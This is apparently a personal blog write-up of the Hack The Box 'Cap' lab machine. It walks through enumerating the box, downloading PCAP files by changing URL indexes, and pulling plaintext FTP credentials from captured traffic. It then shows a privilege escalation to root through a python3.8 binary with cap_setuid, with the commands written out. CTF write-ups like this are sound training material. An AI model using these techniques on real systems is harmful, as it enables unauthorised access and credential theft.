


I've just completed CAP from HTB! In my opinion, CAP is a rather easy and straight forward box that can be completed fairly quickly (If you know what to look for!). Here's a quick writeup on how I went about solving this box

<!--more-->

## HTB - Cap
**Box** : Cap
**IP Address** : 10.10.10.245
**Operating System** : Linux

**Reflections**:
- Learn how to use filter out information using wireshark! 
- `setuid` is KING! ENOUGH SAID :-)

### Enumeration
As usual we will run our good ol' Nmap to identify the services and the OS operating behind each ports. For this box, it is fairly straight forward with only 3 open ports - `21`, `22` and `8081`

Since ports `21` and `22` are ports belonging to FTP and SSH servers respectively, I will start off with the webserver first. 

The website is a fairly simple website that looks like a security dashboard belonging to a user named `Nathan`. The `IP Config` and `Network Status` does not contain any fascinating information that catches my eye, however the `security snapshot` does allow me to download a PCAP file. Furthurmore, I've noticed that I am able to download a few PCAP files by modifying the URLs from `/data/0` to `/data/1`....



We will then proceed to view the PCAP files that we have downloaded. Most of the PCAP files do not contain any interesting information, but the PCAP file downloaded from `http://10.10.10.245/data/0` does contain some interesting information

Initally, I focused on looking at the HTTP packets from wireshark to find exploitable information, but it turns out that the information is hidden in FTP protocol and the credentials are being exchanged in PLAINTEXT!!!


### Obtaining user flag
Now we will just login to the FTP server using the credentials obtained earlier and download the `user.txt` file to our local server.

```bash    
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```

### Obtaining the system/root flag
Remembering that we still have an SSH server, let's try to SSH into the server, in hopes that we can somehow obtain root privileges by just logging in. Unfortunately, reality strikes us hard (NOTHING NEW! LIFE GOES ON)

So what's next? First, I decided to look for executables or programs in that can run `root` permissions without passwords using `sudo -l` but again, to no avail.

```bash
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```

As they always say, Third Time's the charm! On my third attempt, I've decided to search for sudo permissions and SUID binaries that could possibly help us escalate privileges and obtain root shells. This time, I've hit jackpot!

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```

Here, we noticed that `python3.8` actually has a `setuid` command that can allow us to escalate to UID 0 and obtain the root shell. From there, we will be able to obtain the system/root flag.

```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# cat root.txt
```